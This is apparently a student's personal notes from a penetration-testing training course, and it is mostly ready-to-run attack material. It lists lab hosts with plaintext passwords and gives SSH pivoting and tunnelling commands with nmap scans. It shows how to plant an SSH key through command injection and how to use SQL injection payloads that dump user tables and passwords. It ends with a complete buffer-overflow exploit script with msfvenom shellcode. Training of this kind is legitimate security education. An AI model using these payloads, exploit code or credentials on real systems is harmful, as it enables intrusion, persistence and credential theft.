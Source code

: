 http://10.50.20.250:8000/          TYFI-006-M  Ja7Gh0bmQhGeAWq
10.50.28.181  Semper
GREYHOST:     10.50.35.7                                                                           student     Ja7Gh0bmQhGeAWq
ACCESSING GREYHOST:
  ssh -X student@10.50.35.7                                                                        Ja7Gh0bmQhGeAWq
  ssh -MS /tmp/grey student@10.50.35.7                                                             Ja7Gh0bmQhGeAWq

#CREDENTIALS
  WINDOWS:    xfreerdp /u:student /v:10.50.42.187 -dynamic-resolution +glyph-cache +clipboard      password
  LINUX:      ssh -X student@10.50.29.84                                                           Charity@2006
  GREYHOST:                                                                                   Student     Long Pass
  
REBUILD BOXES:
  VTA
  INSTANCES
  REBUILD INSTANCE
  SELECT IMAGE: NIX_OPS
  PARTITIION: AUTOMATIC
  REBUILD INSTANCE
  

#NMAP SCRIPT COMMANDS
  /usr/share/nmap/scripts
  nmap --script <filename>|<category>|<directory>
  nmap --script-help "ftp-* and discovery"
  nmap --script-args <args>
  nmap --script-args-file <filename>
  nmap --script-help <filename>|<category>|<directory>
  nmap --script-trace
      http-enum.nse


#COMMANDS
  ssh -MS /tmp/grey student@10.50.35.7
  ssh -S /tmp/grey grey -O forward -D 9050
  for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
  proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.1,2,3,97,98,99,100,105,111,120,129,130,131 -p-
  ssh -S /tmp/grey grey -O forward -L 40700:192.168.28.111:80
  ssh -S /tmp/grey grey -O forward -L 40710:192.168.28.111:22                                                  #Sets a new master socket referencing the original master socket to access an additional box
  ssh -MS /tmp/billybobhost billybob@0.0.0.0 -p 40710
  ssh -S /tmp/billybobhost -O forward -D 9050
  ssh -S /tmp/grey grey -O cancel -L 40700:192.168.28.111:80                                                   #Closes out a tunnel
  proxychains nmap -v -sT -Pn -T4 --script http-enum.nse 192.168.28.111 -p 80
  



ssh-keygen -t rsa -b 4096                                                                                        #Generates public ssh key
; mkdir /var/www/.ssh
; ls /var/www/ssh
vim test.txt
cat id_rsa.pub            ##HIGHLIGHT ALL OF IT##
copy to test.txt and addd > /var/www/.ssh/authorized_keys to the end
; echo (cat test.txt and copy over file contents) in quotes
ssh -i id_rsa www-data@10.50.27.157




#SQL INJECTION
  ##COMMANDS
SELECT                    Extracts data from a database
UNION                     Used to COMBINE the result-set of TWO OR MORE SELECT STATEMENTS
USE                       Selects the DB to use
UPDATE                    Updates data in a database
DELETE                    Deletes data from a database
INSERT INTO               Inserts new data into a database
CREATE DATABASE           Creates a new database
ALTER DATABASE            Modifies a database
CREATE TABLE              Creates a new table
ALTER TABLE               Modifies a table
DROP TABLE                Deletes a table
CREATE INDEX              Creates an index (search key)
DROP INDEX                Deletes an index

show databases;           shows databases
SELECT * FROM session.car shows all items within the car subtable of the session table
SELECT * FROM session.car UNION SELECT tireid,name,size,cost,1,2 FROM session.Tires;

shwo TABLES FROM information_schema
Select Table_schema,table_name,Column_name FROM information_schema.Column;
IMPORTANT:
  TABLES
  COLUMNS
  DATABASES/TABLE_SCHEMA

User = ' GySgt' or 1='1'
Pass = 'Pass' or 1='1'

php?key=<value> UNION SELECT 1,column_name,3 from information_schema.columns where table_name = 'members'                               GOLDEN STATEMENT
Audi' UNION select table_schema,2,table_name,column_name,5 FROM information_schema.columns #
Audi' UNION select 1,2,3 #
Audi' UNION select id,2,name,pass,5 FROM session.user #
http://10.50.38.117/uniondemo.php?Selection=2%20or%201=1;%20#
http://10.50.38.117/uniondemo.php?Selection=2%20 UNION select 1,2,3;#
http://10.50.38.117/uniondemo.php?Selection=2%20 UNION select table_schema,column_name,table_name FROM information_schema.columns;#
http://10.50.38.117/uniondemo.php?Selection=2%20%20UNION select type,color,name FROM session.car;#

http://0.0.0.0:40756/cases/productsCategory.php?category=1%20UNION%20select%20last_name,password,email%20FROM%20sqlinjection.members;#
RAM' UNION select table_schema,column_name FROM information_schema.columns; #

UNION @@version
RAM' UNION select 1,@@version; #       GIVES SQL VERSION

http://0.0.0.0:40756/cases/productsCategory.php?category=1%20UNION%20SELECT%20Table_schema,column_name,Table_name%20FROM%20information_schema.columns;%20#
http://0.0.0.0:40756/cases/productsCategory.php?category=1%20UNION%20SELECT%201,comment,data%20FROM%20sqlinjection.share4%20WHERE%20id=1337;%20#

./func <<<$(./Desktop/Security/Linux/mybuff.py)        runs func and injects mybuff as the input

./func "YahWeh"                   Command Line Argument
Enter a string: 
./func <<<$(echo "YahWeh")        User Input
Enter a string: 


env - gdb ./func                  Starts gdb without environment variables
unset LINES(OR COLUMNS)           removes gdb environmental variables
gdb ./func
info functions
pdisass main

find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4    Searches starting after the heap to the end of the stack for a jump instruction pointing to the EIP

#PAYLOADS
  msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python










#BUFFEROVERFLOW SCRIPT

#!/usr/bin/python2.7



#OFFSET

buf = "A" * 62  #OFFSET

'''
0xf7f650cf -> \xcf\x50\xf6\xf7
0xf7f65343 -> \x43\x53\xf6\xf7
0xf7f65497 -> \x97\x54\xf6\xf7
0xf7f655cf -> \xcf\x55\xf6\xf7
'''
buf += "\x59\x3b\xde\xf7"  #EIP REGISTER - JMP ESP
#msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python
buf += "\x90" * 10
buf += b"\xba\xd3\xd9\xf0\xd0\xd9\xc7\xd9\x74\x24\xf4\x5d"
buf += b"\x31\xc9\xb1\x0c\x31\x55\x12\x83\xc5\x04\x03\x86"
buf += b"\xd7\x12\x25\x42\xe3\x8a\x5f\xc0\x95\x42\x4d\x87"
buf += b"\xd0\x74\xe5\x68\x90\x12\xf6\x1e\x79\x81\x9f\xb0"
buf += b"\x0c\xa6\x32\xa4\x06\x29\xb3\x34\x70\x4f\xd0\x5b"
buf += b"\xec\xe9\x7f\xc4\xf0\xa2\x2c\x83\x10\x81\x53"
print(buf)


